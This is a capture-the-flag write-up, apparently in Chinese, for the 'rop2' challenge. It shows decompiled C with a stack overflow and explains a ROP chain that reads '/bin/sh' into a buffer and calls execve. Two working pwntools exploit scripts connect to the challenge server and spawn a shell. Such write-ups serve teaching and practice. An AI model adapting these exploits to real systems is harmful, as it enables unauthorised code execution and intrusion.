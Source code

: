 NX 有開 。

main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[42]; // [esp+5h] [ebp-33h]

  alarm(0x1Eu);
  strcpy(v4, "Can you solve this?\nGive me your ropchain:");
  syscall(4, 1, v4, 42);
  overflow();
  return 0;
}
```

overflow
```c
int overflow()
{
  char v1; // [esp+Ch] [ebp-Ch]

  syscall(3, 0, &v1, 1024);
  return syscall(4, 1, &v1, 1024);
}
```

overflow 可以算出 offset 16 可以蓋到 ret ， 於是打算讓他跳回 syscall 執行 sys_execve('/bin/sh')
但 ROPgedget 找不出 '/bin/sh' 於是打算自己構造

想法:
第一次進去 overflow 把 ret 蓋掉，換成 syscall(3, 0, buf, 7) --> sys_read(0, buf, 7) ([參考 syscall table](https://syscalls.kernelgrok.com/))

```python
#payload = padding + ret + syscall + arg1 + arg2 + arg3 + arg4
payload = offset + syscall + ret_addr + sys_read
p.sendline(payload)
p.send('/bin/sh')
```

ret 位置給 overflow 讓他可以達成第二次輸入 (原本嘗試直接再跳一次syscall，但失敗了。好像因為 calling convention 的問題，疑問中)
第二次則從 buf 拿自己輸入的 /bin/sh 出來用
```python
payload = offset + syscall + p32(0xdeadbeaf) + sys_execve
```

exp.py
```python
from pwn import *
offset = 'A' * 16
elf = ELF('./rop2')
p = remote('hackme.inndy.tw', 7703)
syscall = p32(elf.plt['syscall'])
ret_addr = p32(elf.symbols['overflow'])
sys_read = p32(0x3) + p32(0x0) + p32(elf.symbols['some_buffer']) + p32(0x7) # syscall(3, fd, buf, count)
sys_execve = p32(0x0b) + p32(elf.symbols['some_buffer']) + p32(0x0) + p32(0x0)
#paylaod = padding + func + ret + args
payload = offset + syscall + ret_addr + sys_read
p.sendlineafter(':', payload)
p.send('/bin/sh')
payload = offset + syscall + p32(0xdeadbeaf) + sys_execve
p.sendlineafter(':', payload)
p.interactive()
```

以下提供一個ROP利用方法 找出連續四次 pop

exp.py
```python
from pwn import *
offset = 'A' * 16
elf = ELF('./rop2')
p = remote('hackme.inndy.tw', 7703)
syscall = p32(elf.plt['syscall'])
sys_read = p32(0x3) + p32(0x0) + p32(elf.symbols['some_buffer']) + p32(0x7) # syscall(3, fd, buf, count)
sys_execve = p32(0x0b) + p32(elf.symbols['some_buffer']) + p32(0x0) + p32(0x0)

#paylaod = padding + func + ret + args
payload = offset + syscall + p32(0x08048578) + sys_read
payload += syscall +  p32(0xdeadbeaf) + sys_execve
p.sendlineafter("your ropchain:", payload)
p.sendline("/bin/sh")
p.interactive()
```

